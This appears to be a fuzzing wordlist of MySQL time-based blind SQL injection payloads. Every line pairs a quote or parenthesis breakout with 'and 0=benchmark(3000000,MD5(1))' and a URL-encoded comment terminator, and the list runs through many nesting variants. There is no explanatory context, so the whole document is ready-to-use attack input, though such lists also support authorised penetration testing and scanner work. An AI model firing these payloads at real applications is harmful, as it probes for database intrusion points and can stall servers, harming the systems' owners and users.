      and 0=benchmark(3000000,MD5(1))%20/*
     and 0=benchmark(3000000,MD5(1))%20--
     and 0=benchmark(3000000,MD5(1))%20%23
    ' and 0=benchmark(3000000,MD5(1))%20/*
    ' and 0=benchmark(3000000,MD5(1))%20--
    ' and 0=benchmark(3000000,MD5(1))%20%23
    " and 0=benchmark(3000000,MD5(1))%20/*
    " and 0=benchmark(3000000,MD5(1))%20--
    " and 0=benchmark(3000000,MD5(1))%20%23
    ) and 0=benchmark(3000000,MD5(1))%20/*
    ) and 0=benchmark(3000000,MD5(1))%20--
    ) and 0=benchmark(3000000,MD5(1))%20%23
    )) and 0=benchmark(3000000,MD5(1))%20/*
    )) and 0=benchmark(3000000,MD5(1))%20--
    )) and 0=benchmark(3000000,MD5(1))%20%23
    ))) and 0=benchmark(3000000,MD5(1))%20/*
    ))) and 0=benchmark(3000000,MD5(1))%20--
    ))) and 0=benchmark(3000000,MD5(1))%20%23
    )))) and 0=benchmark(3000000,MD5(1))%20/*
    )))) and 0=benchmark(3000000,MD5(1))%20--
    )))) and 0=benchmark(3000000,MD5(1))%20%23
    ') and 0=benchmark(3000000,MD5(1))%20/*
    ') and 0=benchmark(3000000,MD5(1))%20--
    ') and 0=benchmark(3000000,MD5(1))%20%23
    ") and 0=benchmark(3000000,MD5(1))%20/*
    ") and 0=benchmark(3000000,MD5(1))%20--
    ") and 0=benchmark(3000000,MD5(1))%20%23
    ')) and 0=benchmark(3000000,MD5(1))%20/*
    ')) and 0=benchmark(3000000,MD5(1))%20--
    ')) and 0=benchmark(3000000,MD5(1))%20%23
    ")) and 0=benchmark(3000000,MD5(1))%20/*
    ")) and 0=benchmark(3000000,MD5(1))%20--
    ")) and 0=benchmark(3000000,MD5(1))%20%23
    '))) and 0=benchmark(3000000,MD5(1))%20/*
    '))) and 0=benchmark(3000000,MD5(1))%20--
    '))) and 0=benchmark(3000000,MD5(1))%20%23
    "))) and 0=benchmark(3000000,MD5(1))%20/*
    "))) and 0=benchmark(3000000,MD5(1))%20--
    "))) and 0=benchmark(3000000,MD5(1))%20%23
    ')))) and 0=benchmark(3000000,MD5(1))%20/*
    ')))) and 0=benchmark(3000000,MD5(1))%20--
    ')))) and 0=benchmark(3000000,MD5(1))%20%23
    ")))) and 0=benchmark(3000000,MD5(1))%20/*
    ")))) and 0=benchmark(3000000,MD5(1))%20--
    ")))) and 0=benchmark(3000000,MD5(1))%20%23
